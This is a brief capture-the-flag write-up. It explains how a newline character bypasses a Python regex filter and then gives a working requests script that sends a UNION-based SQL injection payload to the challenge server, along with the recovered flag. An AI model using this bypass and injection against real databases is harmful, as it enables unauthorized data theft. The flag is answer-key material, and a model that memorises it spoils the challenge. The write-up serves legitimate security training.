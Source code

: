 We need to bypass this in order to execute an SQL Injection

```if re.search(".'", students_name) or students_name[0] == "'"```

Hint: [regexp security cheatsheet](https://github.com/attackercan/regexp-security-cheatsheet)

We can bypass ```re.search(".'", students_name)``` with a new line **\n**

```python
import re
import requests

r = requests.post("https://infreezy.pythonanywhere.com/vaccine_revenge", data={"students_name":"\n'union select 1,2,flag from s3cret_fl4g--"})
re.search("inf{.*}", r.text)

```
*inf{I_h0p3_v4cC1n3_F@R_c0V1D19_15_R3aL}*


Challenge author: t0m7r00z
